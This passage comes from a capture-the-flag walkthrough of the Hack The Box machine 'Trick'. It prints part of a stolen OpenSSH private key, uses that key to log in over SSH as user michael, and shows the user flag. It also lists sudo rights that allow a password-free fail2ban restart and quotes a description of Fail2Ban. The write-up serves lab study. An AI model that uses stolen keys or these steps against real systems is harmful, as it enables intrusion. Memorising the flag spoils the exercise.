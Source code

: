 ```
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```
Login by using id_rsa of user michael.
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/tricky]
└─$ ssh michael@trick.htb -i id_rsa
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug  6 19:55:53 2022 from 10.10.14.9
michael@trick:~$ 
```
**User Flag.**
```
michael@trick:~$ cat user.txt 
cb5d32e970278f81643b1be01a158ef8
```

### Root user
Checking the sudo command.
```
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
User Michael can run `/etc/init.d/fail2ban restart` with sudo and without password.
>
Fail2Ban scans log files like /var/log/auth.log and bans IP addresses conducting too many failed login attempts. It does this by updating system firewall rules to reject new connections from those IP addresses, for a configurable amount of time. Fail2Ban comes out-of-the-box ready to read many standard log files, such as those for sshd and Apache, and is easily configured to read any log file of your choosing, for any error you wish.
